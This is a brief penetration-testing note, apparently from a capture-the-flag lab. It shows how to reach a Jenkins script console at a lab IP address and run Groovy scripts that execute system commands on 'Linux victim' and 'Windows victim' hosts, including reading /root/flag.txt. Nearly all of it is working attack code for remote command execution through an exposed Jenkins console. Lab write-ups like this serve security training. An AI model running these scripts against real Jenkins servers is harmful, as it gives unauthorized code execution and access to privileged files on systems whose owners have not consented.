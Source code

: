 # Jenkins
 Go to
```
http://10.129.228.209:8080/script
```
Execute following Groovy script on Linux victim
```groovy
def sout = new StringBuilder(), serr = new StringBuilder()
def args = ['bash', '-c', 'cat /root/flag.txt']
def proc = new ProcessBuilder(args)
proc.redirectErrorStream(true)
def process = proc.start()
process.consumeProcessOutput(sout, serr)
process.waitForOrKill(2000)
println sout.toString()
```
Execute following Groovy script on Windows victim
```groovy
def sout = new StringBuilder(), serr = new StringBuilder()
def args = ['cmd.exe', '/c', 'echo halooo']
def proc = new ProcessBuilder(args)
proc.redirectErrorStream(true)
def process = proc.start()
process.consumeProcessOutput(sout, serr)
process.waitForOrKill(2000)
println sout.toString()
```
